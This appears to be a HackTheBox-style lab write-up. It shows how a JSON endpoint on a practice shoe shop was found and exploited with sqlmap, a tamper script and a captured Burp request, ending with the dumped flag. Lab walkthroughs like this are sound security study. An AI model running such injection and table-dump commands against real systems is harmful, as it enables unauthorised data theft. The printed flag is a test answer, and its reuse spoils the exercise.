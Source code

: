 ﻿---
sticker: lucide//database-backup
---
You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

![Pasted image 20250204180837.png](../../../IMAGES/Pasted%20image%2020250204180837.png)

Once we go into the site, we can see the following:

![Pasted image 20250204180851.png](../../../IMAGES/Pasted%20image%2020250204180851.png)

Seems like a simple shoe shop, we have three interesting options we should take a look at: `Contact`, `Catalog`, `Blog`. We need to search around for some of them that injects code in the back-end server, let's take a look:

## Contact


![Pasted image 20250204181046.png](../../../IMAGES/Pasted%20image%2020250204181046.png)

In the contact site, we can see a form that we can fill in order to get in contact with the administrators. Nothing is off in this page, everything sets itself to `#`, so this is not what we're looking for.

## Blog
---

![Pasted image 20250204181231.png](../../../IMAGES/Pasted%20image%2020250204181231.png)

We have a search bar, but the same stuff happens as with the contact site, it gets set to `#`.

## Catalog
---

If we go to the catalog section, we can go into a `shop.html` site, if we inspect the source code for this page, we can see this interesting code:

```
<script>
 $(".add-to-cart").click(function(event) {
 event.preventDefault();

 let xhr = new XMLHttpRequest(); 
 let url = "action.php"; 
 
 xhr.open("POST", url, true); 
 xhr.setRequestHeader("Content-Type", "application/json"); 

 xhr.onreadystatechange = function () {
 if (xhr.readyState === 4 && xhr.status === 200) { 
 alert("Item added!!!")
 }
 };

 var data = JSON.stringify({ "id": 1 }); 
 xhr.send(data); 
 });
 </script>
```

The code basically acts whenever the `add-to-cart` button is clicked, the script posts a JSON object to the `action.php` endpoint.

We must capture the request with burp and use this command:

```
POST /action.php HTTP/1.1

Host: 94.237.53.230:33942

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.53.230:33942

Connection: keep-alive

Referer: http://94.237.53.230:33942/shop.html

Priority: u=0



{"id":1}
```

```
python3 sqlmap.py -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch
```

We get the following:

```
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content |
+----+--------------------------+
| 1 | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```

Flag is `HTB{n07_50_h4rd_r16h7?!}`


![Pasted image 20250204183428.png](../../../IMAGES/Pasted%20image%2020250204183428.png)
